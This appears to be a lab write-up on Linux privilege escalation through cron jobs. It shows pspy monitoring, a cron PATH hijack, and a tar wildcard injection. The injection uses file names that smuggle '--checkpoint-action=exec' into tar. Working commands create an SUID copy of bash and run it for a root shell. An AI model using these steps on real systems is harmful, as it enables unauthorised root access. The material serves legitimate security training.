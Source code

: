 ### Pspy

**Pspy** helps you see what is happening in system even if you are not root:

![](https://i.imgur.com/1NkGZYQ.png)


### Escalation via Cron Paths

**overwrite.sh** is being ran as cronjob:


![](https://i.imgur.com/A8yTRGn.png)

The $PATH is used to set the default path where the cron jobs would run from. Unless specified otherwise.

In our case, the cron jobs $PATH has been set to the user’s home directory. Meaning the default path for cron jobs to run will be the _user_’s home directory:

![](https://i.imgur.com/Q4K7R0o.png)

However, there is no overwirte.sh at /home/user.

Since administrator hasn't created overwrite.sh on /home/user yet, I can create my own **overwrite.sh**:

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`

With the command below, now I have escalated shell:

`/tmp/bash -p`

### Escalation via Cron Wildcards

**/usr/local/bin/compress.sh** was being ran on cronjobs:

```bash
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

  
I first created **runme.sh** that contains script for escalated bash:

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh`

Now I give it execute permission

`chmod +x runme.sh`

I set the checkpoint:

`touch /home/user/--checkpoint=1`

Checkpoint will execute runme.sh when cron runs:

`touch /home/user/--checkpoint-action=exec=sh\runme.sh`
